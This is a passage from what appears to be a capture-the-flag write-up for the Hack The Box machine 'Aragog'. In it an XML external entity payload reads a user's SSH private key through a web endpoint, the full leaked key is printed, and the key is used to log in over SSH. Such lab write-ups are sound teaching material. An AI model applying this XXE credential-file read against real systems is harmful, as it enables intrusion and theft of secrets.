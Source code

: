 Let's modify our XML again.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

```
root@kali:~/htb/aragog# curl -d @test.txt http://10.10.10.78/hosts.php

There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```

Excellent! Let's put this into a file and try to SSH in.

```
root@kali:~/htb/aragog# vi florian_key
root@kali:~/htb/aragog# chmod 600 florian_key


root@kali:~/htb/aragog# ssh -i florian_key florian@10.10.10.78
The authenticity of host '10.10.10.78 (10.10.10.78)' can't be established.
ECDSA key fingerprint is SHA256:phu0FjQg/9nCmL2014AJ9yH4akvraA7Ea5QtE59wqD4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.78' (ECDSA) to the list of known hosts.
Last login: Sun Feb 18 17:06:44 2018 from 10.10.14.7
florian@aragog:~$
```
